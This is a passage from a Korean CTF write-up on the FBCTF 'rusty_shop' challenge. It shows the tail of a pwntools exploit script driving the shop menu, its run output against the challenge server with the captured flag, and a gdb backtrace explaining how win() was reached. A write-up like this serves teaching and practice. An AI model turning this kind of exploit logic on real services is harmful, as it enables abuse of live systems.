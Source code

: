 ```python
    p.sendlineafter("Price","1")
    p.sendlineafter("6","4")
    p.sendlineafter("add","1")
    p.sendlineafter("Count",str(count))
    p.sendlineafter("6","6")

    check = p.recvall()
    print check
```

그리고 실행하고 좀 기다리면 flag를 획득할 수 있다.

```bash
$python ex.py
...
[+] Opening connection to challenges.fbctf.com on port 1342: Done
[+] Receiving all data: Done (49B)
[*] Closed connection to challenges.fbctf.com port 1342
. Check out
fb{s4f3_l4nguag3s_arent_always_safe}
...
```

---

## 🤔Review

왜 이런 공격이 가능했는지 `backtrace`해 보았다. 그 결과 `rusty_shop::detect_hacking`에서 `win`함수가 호출됐음을 알 수 있었다.

```bash
gdb-peda$ backtrace
#0  rusty_shop::win()
#1  0x000000000030cd35 in core::ptr::drop_in_place::h60e9a1ca70b7d49e()
#2  0x000000000030cea3 in core::ptr::drop_in_place::h674069322c64cd87()
#3  0x000000000030b25c in _$LT$alloc..vec..Vec$LT$T$GT$$u20$as$u20$core..ops..drop..Drop$GT$::drop()
#4  0x000000000030d301 in core::ptr::drop_in_place()
#5  0x0000000000315ec7 in rusty_shop::detect_hacking::_$u7b$$u7b$closure$u7d$$u7d$()
#6  0x000000000031dab9 in std::sys_common::backtrace::__rust_begin_short_backtrace()
#7  0x000000000030a116 in std::thread::Builder::spawn::_$u7b$$u7b$closure$u7d$$u7d$::_$u7b$$u7b$closure$u7d$$u7d$()
#8  0x000000000031aa69 in _$LT$std..panic..AssertUnwindSafe$LT$F$GT$$u20$as$u20$core..ops..function..FnOnce$LT$$LP$$RP$$GT$$GT$::call_once()
#9  0x000000000031032b in std::panicking::try::do_call
#10 0x000000000036a26a in __rust_maybe_catch_panic ()
#11 0x0000000000310174 in std::panicking::try()
#12 0x000000000031aaa9 in std::panic::catch_unwind()
#13 0x0000000000309ca6 in std::thread::Builder::spawn::_$u7b$$u7b$closure$u7d$$u7d$()
#14 0x000000000030a28d in _$LT$F$u20$as$u20$alloc..boxed..FnBox$LT$A$GT$$GT$::call_box()
#15 0x0000000000326b7b in std::sys_common::thread::start_thread()
#16 0x0000000000322e26 in std::sys::unix::thread::Thread::new::thread_start()
#17 0x00007f8af73556ba in start_thread
#18 0x00007f8af6e7541d in clone ()
```

---